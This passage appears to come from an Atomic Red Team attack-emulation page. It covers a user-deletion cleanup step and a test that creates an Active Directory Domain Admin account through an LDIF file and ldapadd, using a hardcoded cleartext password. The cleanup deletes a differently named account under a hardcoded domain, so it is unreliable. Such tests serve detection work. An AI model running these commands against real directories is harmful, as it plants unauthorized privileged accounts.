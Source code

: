
#### Cleanup Commands:
```powershell
cmd /c "net user #{username} /del >nul 2>&1"
```





<br/>
<br/>

## Atomic Test #4 - Active Directory Create Admin Account
Use Admin Credentials to Create A Domain Admin Account

**Supported Platforms:** Linux


**auto_generated_guid:** 562aa072-524e-459a-ba2b-91f1afccf5ab





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | The domain to be tested | string | example|
| top_level_domain | The top level domain (.com, .test, .remote, etc... following domain, minus the .) | string | test|
| admin_user | username@domain of a user with admin privileges | string | admin@example.test|
| admin_password | password of the user with admin privileges referenced in admin_user | string | s3CurePssw0rD!|
| domain_controller | Name of the domain_controller machine, defined in etc/hosts | string | adVM|


#### Attack Commands: Run with `sh`! 


```sh
echo "dn: CN=Admin User,CN=Users,DC=#{domain},DC=#{top_level_domain}\nchangetype: add\nobjectClass: top\nobjectClass: person\nobjectClass: organizationalPerson\nobjectClass: user\ncn: Admin User\nsn: User\ngivenName: Atomic User\nuserPrincipalName: adminuser@#{domain}.#{top_level_domain}\nsAMAccountName: adminuser\nuserAccountControl: 512\nuserPassword: {CLEARTEXT}s3CureP4ssword123!\nmemberOf: CN=Domain Admins,CN=Users,DC=#{domain},DC=#{top_level_domain}" > tempadmin.ldif
echo ldapadd -H ldap://#{domain}.#{top_level_domain}:389 -x -D #{admin_user} -w #{admin_password} -f tempadmin.ldif
ldapadd -H ldap://#{domain}.#{top_level_domain}:389 -x -D #{admin_user} -w #{admin_password} -f tempadmin.ldif
```

#### Cleanup Commands:
```sh
echo removing Atomic User (temporary user)
echo "dn: cn=Atomic User,cn=Users,dc=scwxscratch,dc=dev\nchangetype: delete" > deleteuser.ldif
ldapmodify -H ldap://#{domain_controller}:389 -x -D #{admin_user} -w #{admin_password} -f deleteuser.ldif
rm deleteuser.ldif
rm tempadmin.ldif
```
